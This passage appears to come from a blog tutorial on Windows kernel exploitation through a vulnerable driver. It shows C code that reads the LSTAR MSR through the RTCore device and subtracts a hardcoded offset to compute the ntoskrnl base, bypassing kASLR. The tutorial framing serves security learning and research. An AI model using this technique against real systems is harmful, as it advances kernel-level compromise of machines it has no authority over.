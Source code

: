 ```c
		&BytesReturned,
		NULL
	);


	// LSTAR + ntoskrnl base
	DWORD64 lstar_value = ((uint64_t)MsrRead.ValueHigh << 32) | MsrRead.ValueLow;
	printf("[+] LSTAR MSR (nt!KiSystemCall64Shadow): 0x%llx\n", lstar_value);

    CloseHandle(RTCORE_DEVICE);

...snip...
}
```

Since `nt!KiSystemCall64Shadow` is a function inside of `ntoskrnl`, we can just get the offset (distance) and dynamically calculate the ntoskrnl base address without worrying about kASLR. 

![figure-7](/assets/img/drivers-1/figure-7.png){:style="display:block; margin-left:auto; margin-right:auto"}

In this case, `nt!KiSystemCall64Shadow` was loaded at `0xfffff80084bac200` and the NT base was loaded at  `0xfffff80084000000`. The difference is `0xbac200`, so to get the NT base address, we just subtract `0xbac200` from the LSTAR MSR value.

```c
DWORD64 kisystemcall64shadowOffset = 0xbac200; // ? nt!KiSystemCall64Shadow - nt
DWORD64 ntoskrnlBase = lstar_value - kisystemcall64shadowOffset;
printf("[+] ntoskrnl base: 0x%llx\n", ntoskrnlBase);
```
> ⚠️ NOTE: 
> This offset and many others vary depending on the version of Windows you are on. It is important to always check in WinDbg.

![figure-8](/assets/img/drivers-1/figure-8.png){:style="display:block; margin-left:auto; margin-right:auto"}

